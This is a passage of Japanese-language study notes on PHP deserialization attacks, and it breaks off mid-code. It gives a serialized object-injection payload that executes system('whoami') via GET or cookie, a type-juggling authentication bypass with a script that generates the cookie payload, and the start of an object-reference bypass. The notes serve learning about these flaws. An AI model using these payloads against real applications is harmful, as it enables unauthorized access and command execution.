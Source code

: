 ```php
    }
?>
```
GETのデータとかCookieのデータとかで`system("whoami")`を実行する。   
```txt
?r=O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
Cookie: r=O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D
```
## AuthBypass TypeJuggling
```php
// 一見、どう見ても安全に見えるが実はがちがちに脆弱。ヤバすぎてワロタ
data = unserialize($_COOKIE['auth']);

// "=="で比較しているため、TypeJugglingにより、 true(boolean) == "admin"(string) はTrueとなるので危険！
if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```
以下でAuthBypassのためのPayloadを作成。   
```php
<?php
$data = array("username" => true, "password" => true);
echo serialize($data)."\n"; // a:2:{s:8:"username";b:1;s:8:"password";b:1;}

// "username"のValueの値をBooleanのTrueにするとTypeJugglingによりAuthBypassできる！
echo gettype(true == "admin")." : ".(true == "admin")."\n";  // boolean : 1
echo gettype(true === "admin")." : ".(true === "admin")."\n"; // boolean : 
?>
```
作成した`a:2:{s:8:"username";b:1;s:8:"password";b:1;}`をURL encodeしてCookieにセットすればBypassできる！   
```txt
Cookie: auth=a%3A2%3A%7Bs%3A8%3A%22username%22%3Bb%3A1%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
```
## AuthBypass ObjectReference
```php
<?php
class Object1{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
以下で`$secretCode`と`$code`が同じ値を指すように参照代入したシリアライズデータを作成する。   
```php
<?php
class Object1{
    public $secretCode = "a";
    public $code;
    //public $code = &$secretCode;  // ここでやろうとするとerror。コンストラクタ内でやらないとだめらしい
    public function __construct(){
        // リファレンス(参照)代入。これで$secretCodeと$codeが同じ値を指すようになった！
```